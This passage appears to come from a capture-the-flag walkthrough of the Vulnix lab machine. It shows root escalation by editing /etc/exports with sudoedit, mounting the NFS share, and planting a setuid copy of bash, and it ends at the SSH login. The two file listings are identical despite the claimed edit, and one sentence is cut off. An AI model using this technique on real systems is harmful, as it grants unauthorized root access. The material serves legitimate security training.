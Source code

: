 Also due to the fact that there's a secure_path set, we can't manipulate the `PATH` variable (except by running `sudo -e` which we can't).

```console
vulnix@vulnix:~$ sudoedit /etc/exports
vulnix@vulnix:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#  to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix *(rw,root_squash)
/root  *(rw, no_root_squash)

vulnix@vulnix:~$
```

Let's edit the file and update `/home/vulnix` so we're able to

```console
vulnix@vulnix:~$ sudoedit /etc/exports
vulnix@vulnix:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#  to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix *(rw,root_squash)
/root  *(rw, no_root_squash)

vulnix@vulnix:~$
```


Restart the VM and remount the shared directory. We can upload a local exploit to gain root, or just copy `/bin/bash` and give it setuid permissions.

We'll run `bash` with `-p` flag to keep the original file's permissions.

```console
root@kali:/tmp# mount -t nfs 192.168.1.72:/home/vulnix /tmp/mnt
root@kali:/tmp# cd mnt
root@kali:/tmp/mnt# cp /bin/bash .
root@kali:/tmp/mnt# chmod 4777 bash
root@kali:/tmp/mnt# ls -al
total 1180
drwxr-x---  5 vulnix vulnix    4096 Oct 31 00:41 .
drwxrwxrwt 12 root   root      4096 Oct 31 00:39 ..
-rwsrwxrwx  1 root   root   1171072 Oct 31 00:41 bash
-rw-------  1 vulnix vulnix       0 Oct 31 00:31 .bash_history
-rw-r--r--  1 vulnix vulnix     220 Apr  3  2012 .bash_logout
-rw-r--r--  1 vulnix vulnix    3486 Apr  3  2012 .bashrc
drwx------  2 vulnix vulnix    4096 Oct 31 00:09 .cache
-rw-r--r--  1 vulnix vulnix     675 Apr  3  2012 .profile
drwxr-xr-x  2 vulnix vulnix    4096 Oct 31 00:09 .ssh
root@kali:/tmp/mnt# ssh vulnix@192.168.1.72
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

```